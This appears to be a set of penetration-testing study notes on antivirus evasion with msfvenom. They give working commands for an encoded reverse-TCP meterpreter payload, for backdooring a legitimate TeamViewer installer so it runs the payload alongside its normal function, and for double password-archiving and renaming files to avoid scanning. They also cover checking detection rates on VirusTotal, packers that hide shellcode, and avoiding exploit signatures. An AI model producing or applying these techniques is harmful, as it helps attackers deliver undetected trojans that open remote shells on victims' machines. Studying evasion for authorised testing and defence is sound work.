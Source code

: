 ## Security Policies Mechanisms

| Detection Type             | Description                            |
| -------------------------- | -------------------------------------- |
| Signature-based            | Matches known malware patterns         |
| Heuristic / Anomaly-based  | Detects deviation from normal behavior |
| Stateful Protocol Analysis | Analyzes protocol state/flows          |
| Live Monitoring (SOC)      | Human + automated real-time alerting   |
## Evasion with msfvenom: Key Techniques

###  Encoding Payload

- Use encoders like `x86/shikata_ga_nai`
- Use `-i <iterations>` for multiple layers of encoding

```bash
msfvenom -p windows/x86/meterpreter_reverse_tcp LHOST=<ip> LPORT=4444 \
  -e x86/shikata_ga_nai -i 5 -f exe -o payload.exe
```
### Backdoored Executables

- Use existing legit EXE to inject payload using `-x`
- Use `-k` to preserve original functionality (run in parallel)

```bash
msfvenom -p windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 \
  -k -x TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows \
  -o TeamViewer_Backdoored.exe -i 5
```
### Password-Protected Archive Bypass

- AVs cannot scan password-protected `.rar` / `.zip` files
- Rename `.rar` to remove file extension to reduce detection   

```bash
rar a -p test.rar test.js
mv test.rar test
rar a -p test2.rar test
mv test2.rar test2
```

> Uploading `test2` (double archived and renamed) yields 0/49 detection in VirusTotal.

### Testing with VirusTotal CLI

```bash
msf-virustotal -k <API_KEY> -f payload.exe
```

Use after every obfuscation attempt to get detection rate.

## Packers

- Tools that compress + encrypt EXEs
- Hide shellcode from AV signatures

Popular Packers:

- `UPX`, `MPRESS`, `Enigma Protector`, `ExeStealth`, `Morphine`, `Themida`
## Exploit Coding Evasion Tips

- Avoid:
    - Obvious NOP sleds (`\x90\x90\x90`)
    - Repetitive buffer patterns
- Use random offsets in targets to obfuscate

```ruby
'Targets' => [
  [ 'Win2k SP4', { 'Ret' => 0x77e14c29, 'Offset' => 5093 } ],
]
```
# Tags
> #Pre-Exploitation #Shells #MSFVenom 